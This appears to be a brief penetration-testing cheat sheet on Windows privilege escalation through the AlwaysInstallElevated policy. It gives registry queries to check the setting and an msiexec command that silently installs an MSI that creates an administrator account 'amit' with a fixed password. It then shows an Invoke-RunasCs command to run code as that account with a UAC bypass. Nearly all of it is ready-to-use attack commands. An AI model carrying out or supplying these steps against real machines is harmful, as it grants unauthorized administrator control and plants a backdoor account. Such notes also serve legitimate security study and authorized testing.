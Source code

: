 # Leveraging AlwaysInstallElevated
Check if enabled:
- `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated` 
- `reg query HKLM\software\policies\microsoft\windows\installer /v alwaysinstallelevated`
- Exploit: `msiexec /quiet /qn /i newlocaladmin.msi`

### MSI File Purpose

1. Creating the user `amit` with the password `Password123!` 
2. Adding the user to the local administrators group. 

Then we can use [Invoke-RunasCs.ps1](https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1) to get code execution as the newly created administrator user:
- `Invoke-RunasCs amit 'Password123!' 'whoami /priv' -ForceProfile -CreateProcessFunction 2 -BypassUac`
